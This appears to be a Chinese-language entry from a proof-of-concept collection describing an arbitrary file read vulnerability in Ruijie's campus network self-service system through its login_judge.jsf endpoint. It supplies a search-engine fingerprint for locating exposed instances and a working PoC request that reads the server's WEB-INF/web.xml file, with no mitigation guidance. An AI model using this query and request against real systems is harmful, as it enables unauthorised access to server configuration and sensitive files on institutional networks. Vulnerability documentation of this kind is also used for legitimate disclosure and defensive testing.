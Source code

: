 # 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

## 漏洞描述

锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

锐捷 校园网自助服务系统

## 网络测绘

```
body="校园网自助服务系统"
```

## 漏洞复现

登陆页面

![image-20231116142459917](images/image-20231116142459917.png)

poc

```
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

![image-20231116142521368](images/image-20231116142521368.png)